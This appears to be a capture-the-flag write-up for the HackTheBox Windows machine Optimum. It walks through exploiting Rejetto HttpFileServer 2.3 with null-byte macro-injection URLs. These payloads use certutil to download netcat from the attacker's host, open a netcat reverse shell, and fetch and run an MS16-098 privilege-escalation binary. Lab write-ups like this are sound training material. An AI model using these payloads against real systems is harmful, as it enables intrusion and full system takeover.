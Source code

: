 ```yaml
---
layout: default
title: HackTheBox - Beep Writeup
permalink: /htb/optimum
---
```


# Optimum

> **Name:** Optimum
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Optimum](https://www.hackthebox.eu/home/machines/profile/6) was released on 18 Mar 2017 and it is an easy rated Windows box, which makes it a good place for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes during a break from active boxes. When I originally completed this I vaguely remember having issues getting the privilege escalation to work. So this is a good opportunity to revisit and figure out what was causing those issues. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.8 -sC -sV -v -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/optimum/scan-results.png)

So yeah! Not a lot to go on so I guess we need to dive into this web app.


## Enumeration

The first thing I like to do with a web app is to have a browse around as a user and see what there is. In this case it is just a simple file server. 

![File Server]({{site.url}}/assets/optimum/fileserver.png)

By clicking on the server information link at the bottom of the page it directs you to the rejetto website. Valuable information, as now we know it is a rejetto httpfileserver 2.3. It is worth checking if this has any known public exploits. 
![Searchsploit]({{site.url}}/assets/optimum/searchsploit.png)

Quite a few for the version in use, and most of them are remote command execution as well. This could be just the attack path needed to get a foothold. A quick look at a few of the exploits give an idea of what the vulnerability is and how it is exploited. With 34668.txt result from searchsploit giving a good overview of the problem.

>issue exists due to a poor regex in the file ParserLib.pas
>
>```
>function findMacroMarker(s:string; ofs:integer=1):integer;
>begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
>```
>
>it will not handle null byte so a request to 
>
>```http://localhost:80/?search=%00{.exec|cmd.} ```
>
>will stop regex from parse macro , and macro will be executed and remote code injection happen.

This means that if a crafted search query is performed it is possible to break the function and execute your own code. How the other scripts exploit this is by creating a Visual Basic script to download netcat from a webserver in the first request, then a second request to execute that script, and finally a third request to run the netcat reverse shell command. 

Now rather than diving straight into using one of those scripts lets have a play with it manually and get it working! A nice simple method I use to confirm code execution is to get the target to run the ping command, and watch for the response in tcpdump or wireshark. Looking at the information about the exploit, this should be as easy as:

```https://10.10.10.8/?search=%00{.exec|ping.exe 10.10.14.9.}```

Just remember that if you are not submitting this in a browser to URL encode the space. When you check tcpdump or wireshark you should see the ICMP request and responses. 

![wireshark]({{site.url}}/assets/optimum/wireshark.png)

So with code execution proven, now it is a simple matter of getting a shell up and running. First up is getting netcat uploaded, in previous write-ups I have used a SMB share to get files onto a target. This time we will use certutil. A native binary on Windows which is used for certificate management, but it has the rather handy feature of being able to download files when you use the command with the following flags:

``` certutil -urlcache -split -f <hosting location> <output file> ```

With this exploit the command looks like this:

``` http://10.10.10.8/?search=%00{.exec|certutil.exe -urlcache -split -f http://10.10.14.9/nc.exe C:\windows\temp\nc.exe.} ```

Where the output directory is somewhere that tends to be world writeable. Now all that is needed is to setup a webserver to host the file. My go to is a simple python based one, and I recently moved to the Python3 implementation which can be used with the following command:

``` python3 -m http.server 80 ```

This will setup a webserver on port 80 in the directory you run the command from, so make sure you don't drop it in your root directory or anything silly like that! Now the certutil command can be ran, and the webserver can be monitored for the incoming request. 

![Web Server]({{site.url}}/assets/optimum/simpleserver.png)

Then a listener can be setup using netcat, and the exploit used to launch the reverse shell with the following command:

``` http://10.10.10.8/?search=%00{.exec|C:\windows\temp\nc.exe -e cmd.exe 10.10.14.9 443.} ```

Which will instantly give a shell with command prompt.

![User Shell]({{site.url}}/assets/optimum/user-shell.png)

Running ``` syteminfo ``` gives a quick overview of the target, and in this case we can see it is Server 2012 R2 and has had 31 hotfixes installed. 

![Systeminfo])({{site.url}}/assets/optimum/systeminfo.png)

If you want to get your hands really dirty you can sit and manually check which patches haven't been applied and see if any of those fix privilege escaltion vulnerabilities. Or you can use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which will take the output of Systeminfo and work out what is missing. This gives an indication of what vulnerabilities are potentially present on the system.

As many updates have been released since this box was launched there is going to be a lot of output with these tools. But the intended path is going to be something from before Mar 2017 in all likelihood. This is a bigger issue if you use the newer version - [wesng](https://github.com/bitsadmin/wesng) which is more useful for modern OS like Windows 10. 

The output from this is huge! Now it's a case of going through the results and finding which one is the best fit. This can take some time, but odds are a lot of these will work. 

The one I used is MS16-098 and can be found in searchsploit. 

![Searchsploit]({{site.url}}/assets/optimum/searchsploit-privesc.png)

Checking over 41020.c there is a comment at the top that links to a pre-compiled binary for the exploit and as this is one of the curated Offensive Security exploits there is an associated level of trust you can place in it, as normally I wouldn't recommend blindly downloading and executing exploits you haven't checked over and compiled yourself. Just so you don't break something!

The binary can be got from:

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

This can be done quickly from the command prompt with wget. 

![Download Exploit]({{site.url}}/assets/optimum/exploit-download.png)

It is then transferred to the target using the certutil method that was used previously. 

``` certutil -urlcache -split -f http://10.10.14.9/ms16-098.exe C:\Users\kostas\Desktop\ms16-098.exe ```

This can then be executed to give us that lovely System shell!

![Privesc]({{site.url}}/assets/optimum/privesc.png)

No issues this time around with the privesc, I have a feeling that the first time around I used a different exploit and probably got stuck in a 32bit vs 64bit issue without realising!
